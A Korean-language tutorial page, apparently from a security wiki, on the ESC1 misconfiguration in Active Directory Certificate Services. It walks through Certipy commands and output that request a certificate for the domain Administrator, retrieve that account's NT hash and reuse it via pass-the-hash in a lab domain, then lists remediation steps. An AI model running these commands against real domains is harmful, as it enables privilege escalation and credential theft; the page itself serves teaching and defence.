 # ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념&#x20;

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는  설정이  존재한다. 이 설정이 되어있는 취약  인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,&#x20;

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 란에는는 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.&#x20;
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.&#x20;
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.&#x20;

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.&#x20;

### 전제 조건&#x20;

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화&#x20;
2. Manager Approval 설정 비활성화&#x20;
3. Authorized Signature 설정 비활성화&#x20;
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재 &#x20;
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습&#x20;

#### ESC 1 정보 수집&#x20;

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.&#x20;

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.&#x20;

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`  설정이 활성화 되어 있다.&#x20;
2. Requires Manager Approval: False  - 비활성화 되어 있다.&#x20;
3. Authorized Signature: 0  - 비활성화 되어 있다.&#x20;
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.&#x20;

#### 공격&#x20;

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.&#x20;

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.&#x20;

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.&#x20;

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```



### 대응 방안&#x20;

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.&#x20;
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.&#x20;
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제&#x20;
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/esc1.png" alt=""><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (4).png" alt=""><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>





### 레퍼런스&#x20;



{% embed url="https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf" %}

{% embed url="https://github.com/ly4k/Certipy" %}
